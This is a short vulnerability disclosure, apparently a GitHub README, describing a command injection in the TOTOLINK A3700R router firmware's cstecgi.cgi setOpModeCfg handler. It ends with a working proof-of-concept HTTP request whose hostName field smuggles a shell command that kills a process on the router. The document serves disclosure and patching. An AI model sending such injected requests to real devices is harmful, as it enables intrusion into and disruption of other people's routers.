

# TOTOLINK_A3700R_V9.1.2u.6165_20211012has a command injection vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

[](https://github.com/Covteam/iot_vuln/blob/main/setOpModeCfg/image/image-20240104001414887.png)

## Vulnerability details

TOTOLINK_A3700R_V9.1.2u.6165_20211012

`/www/cgi-bin/cstecgi.cgi`

in ` sub_42455C`


caused command injection in doSystem

PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: joe1sn.top:18880
Content-Length: 122
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://joe1sn.top:18880
Referer: http://joe1sn.top:18880/advance/diagnosis.html?time=1704342495749
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1704348391:2
Connection: close


{"opmode":"gw","wifiIdx_rpt":"1","switchOpMode":"1","proto":"5","hostName":"';kill -9 1071;#","topicurl":"setOpModeCfg"}
```


